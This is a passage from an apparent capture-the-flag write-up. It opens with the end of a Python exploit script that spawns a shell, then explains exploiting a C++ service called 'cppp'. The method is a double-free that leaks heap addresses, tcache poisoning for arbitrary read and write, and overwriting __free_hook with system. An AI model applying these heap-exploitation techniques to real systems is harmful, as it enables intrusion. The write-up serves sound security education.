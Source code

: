 ```python=
    0x120,0,0,0,0,0x31,)
data += p64(len(data)+0x10)
add(len(data),data)
recant(5,len(data)+8,data+p64(0x8d1))
add(0x3,"sh\x00")
add(0x20,p64(libc+0x4f440)+p64(0)*3)

remove(6)

r.interactive()


```
### cppp
The service is written in C++, which allow us to add/remove/view a data. Each data will be appended to a vector, and can be removed/viewed by providing the index of the data.

#### Vulnerability
After playing around with the service, we found that

```
add(name, data) // data size = 0x20
add(name, data)
remove(0)
view(0)

```
will leak the heap address. Also 

```
add(name, data) // data size = 0x20
add(name, data)
remove(0)
remove(0)

```
will make tcache_entry[0] ( chunk size 0x20 )  contains duplicate memory chunks, which allow us to use tcache poisoning to achieve arbitrary write primitive.

#### Exploitation
First we leak the heap address. Then we allocate data ( size = 0x90 ) for 8 times, and free them all. This will make libc address appears on the heap memory, so later we can leak it with arbitrary read primitive.

To achieve arbitrary read, we use tcache poisoning to overwrite the fd pointer of the tcache entry and let it point to the beginning of the data vector. Next time when we add a data with size 0x200, we'll be able to control the content ( including the data pointer ) of the data vector. With a fake data vector, we can leak the libc address by viewing the data we forged inside the vector. 

After that, just use tcache poisoning again to overwrite the tcache entry's fd pointer to `__free_hook`, then overwrite the function pointer to `system` and call `free('sh')` ( now `system('sh')` ) to get the shell and the flag.
